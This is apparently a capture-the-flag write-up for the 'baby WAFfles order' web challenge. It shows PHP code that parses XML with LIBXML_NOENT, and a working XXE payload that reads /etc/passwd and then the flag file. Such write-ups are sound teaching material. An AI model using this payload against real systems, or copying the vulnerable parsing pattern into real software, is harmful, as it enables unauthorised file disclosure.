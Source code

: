 # baby WAFfles order - web challenge

The website allows users to order waffles or ice cream. Here's an image of the website:

![](index.png)

Let's review the source code. The OrderController.php caught my attention.


```
<?php
class OrderController
{
    public function order($router)
    {
        $body = file_get_contents('php://input');
        if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/json')
        {
            $order = json_decode($body);
            if (!$order->food) 
                return json_encode([
                    'status' => 'danger',
                    'message' => 'You need to select a food option first'
                ]);
            return json_encode([
                'status' => 'success',
                'message' => "Your {$order->food} order has been submitted successfully."
            ]);
        }
        else if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/xml')
        {
            $order = simplexml_load_string($body, 'SimpleXMLElement', LIBXML_NOENT);
            if (!$order->food) return 'You need to select a food option first';
            return "Your {$order->food} order has been submitted successfully.";
        }
        else
        {
            return $router->abort(400);
        }
    }
}
```

The critical part is this:


```
 else if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/xml')
        {
            $order = simplexml_load_string($body, 'SimpleXMLElement', LIBXML_NOENT);
            if (!$order->food) return 'You need to select a food option first';
            return "Your {$order->food} order has been submitted successfully.";
        }
```

If the content type of the request is XML, the data is passed to simplexml_load_string without any filtering or input sanitization, which allows us to inject XML entities and read files. Let's try to provide simple XML and see if it works. Then we will inject XML. I'll use Burp Suite Repeater to intercept the request and send XML data.

first payload:
```
<!--?xml version="1.0" ?-->
<userInfo>
 <food>Pls work</food>
 <lastName>Doe</lastName>
</userInfo>
```

![](burp1.png)

As you can see the name in the food was displayed in the response.

> "Your Pls work order has been submitted successfully."

Now let's add a malicious entity to read /etc/passwd:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <food>&ent;</food>
 <lastName>Doe</lastName>
</userInfo>
```

We got /etc/passwd!

![](burp2.png)

Now let's find the flag. Since I don't know its location, I'll check the config files. In the Dockerfile, I found this line:
`COPY flag /flag`

The flag is copied to /flag. Let's try to read it:

![](flag.png)

As you can see, the server responded with the flag. Congratulations, we successfully completed the Baby Waffles Order web challenge!